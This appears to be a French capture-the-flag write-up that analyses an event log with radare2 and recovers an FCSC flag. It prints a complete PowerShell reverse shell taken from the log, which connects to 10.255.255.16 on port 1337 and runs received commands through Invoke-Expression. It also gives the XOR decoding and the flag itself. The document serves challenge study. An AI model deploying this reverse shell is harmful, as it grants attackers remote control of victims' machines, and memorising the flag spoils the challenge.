

## Event log



Strings ne donne pas grand chose: on passe à `radare2`:
On lance `r2 -qcizz M*` pour regarder les strings.

On découvre que des commandes intéressantes dans le log:


```powershell
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()
```

Le script se connecte à un serveur distant sur l'adresse IP 10.255.255.16 et le port 1337. Il attend jusqu'à ce qu'une connexion soit établie, puis écrit une string au client.

On éxécute avec pwsh (`yay -S powershell-bin` sous Arch) :

```powershell
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D

$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
```

On affiche $s : qui est le flag!!

`FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}`
